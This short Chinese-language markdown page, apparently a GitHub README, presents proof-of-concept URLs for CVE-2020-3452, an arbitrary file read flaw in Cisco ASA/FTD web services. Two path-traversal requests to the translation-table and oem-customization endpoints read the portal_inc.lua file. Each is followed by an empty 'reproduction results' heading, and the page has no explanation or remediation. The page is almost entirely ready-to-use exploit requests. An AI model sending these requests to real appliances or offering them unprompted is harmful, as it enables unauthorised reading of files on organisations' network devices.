


CVE-2020-3452：Cisco_ASAFTD任意文件读取漏洞  

POC:one:

```
For example to read "/+CSCOE+/portal_inc.lua" file. https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```


漏洞复现情况如下:



POC:two:

```
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```

漏洞复现情况如下：

